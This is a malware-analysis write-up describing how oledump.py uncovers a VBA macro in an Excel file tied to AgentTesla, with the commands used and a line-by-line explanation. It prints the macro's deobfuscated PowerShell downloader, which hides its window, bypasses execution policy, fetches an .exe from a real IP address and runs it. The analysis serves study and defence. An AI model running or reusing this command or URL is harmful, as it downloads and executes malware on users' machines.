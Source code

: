 # Oledump + VBA Macro Analysis 

> Goal: Make this easy to read and understand.  
> Put this file in your repo as `oledump-vba-agenttesla.md`.  
> Commands are shown as normal lines (no shell highlighting) so you can copy-paste into docs.



## 1) Short summary 
We opened an Excel file `agenttesla.xlsm` with `oledump.py` and found a VBA macro in the `VBA/ThisWorkbook` stream. The macro builds an obfuscated PowerShell command, downloads `Doc-3737122pdf.exe` from `http://193.203.203.67/rt/` to a temporary file, renames it to `.exe`, and runs it. The macro uses simple obfuscation characters (`*` and `^`) that the script removes before executing the PowerShell command.



## 2) Commands you ran 
oledump.py agenttesla.xlsm  
oledump.py agenttesla.xlsm -s 4  
oledump.py agenttesla.xlsm -s 4 --vbadecompress



## 3) What oledump showed 
- oledump lists data streams inside the Excel OLE container.
- Streams marked with `M` contain macros. In our file, `VBA/ThisWorkbook` had `M`, so we examined it.
- Using `--vbadecompress` converts compressed VBA into readable VBA text.



## 4) Key VBA excerpt we found (cleaned)
The macro built this string (after replacing `*` and `^` with nothing):

powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru; Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile; Start-Process $TempFile;


## 5) What that PowerShell does (line-by-line, simple)
- `-WindowStyle hidden` — run PowerShell without showing a window (user won't see it).  
- `-executionpolicy bypass` — ignore PowerShell's execution restrictions so the script can run.  
- `$TempFile = [IO.Path]::GetTempFileName()` — make a temporary filename like `C:\Users\<user>\AppData\Local\Temp\abcd.tmp`.  
- `Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }` — change the temp file extension from `.tmp` to `.exe`.  
- `Invoke-WebRequest -Uri "<URL>" -OutFile $TempFile` — download the file from the internet and save it to the temp path.  
- `Start-Process $TempFile` — execute the downloaded file (runs the .exe).

